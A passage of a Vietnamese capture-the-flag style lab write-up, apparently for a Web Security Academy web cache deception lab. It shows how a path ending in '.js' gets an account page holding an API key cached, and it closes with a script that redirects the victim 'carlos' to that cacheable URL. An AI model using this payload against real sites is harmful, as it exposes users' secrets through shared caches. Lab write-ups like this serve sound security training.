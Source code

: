   - Thử đổi thành ```GET /my-account/hehe``` --> Vẫn thấy API key:

![alt text](./img/lab1-3.png)

-->Chứng tỏ server map tất cả về "/my-account"

    • Đổi thành "GET /my-account/hehe.js --> Response vẫn có API key nhưng có thêm:

        ○ Cache control: max-age=30

        ○ X-Cache: miss (lúc đầu), sau khi gửi lại --> X-Cache: hit

-->Chứng tỏ cache đang lưu trữ sensitive data

![alt text](./img/lab1-4.png)

-Nắm được điều này, ta bắt đầu tạo exploit để lừa victim:

    • Target: Ép "carlos" truy cập vào "my-account/prochicken.js"

    • Dùng exploit server, chèn script:

```html 
<script>
  document.location="https://0a1500c703d8de9280907c47008c0063.web-security-academy.net/my-account/prochicken.js"
</script>
```
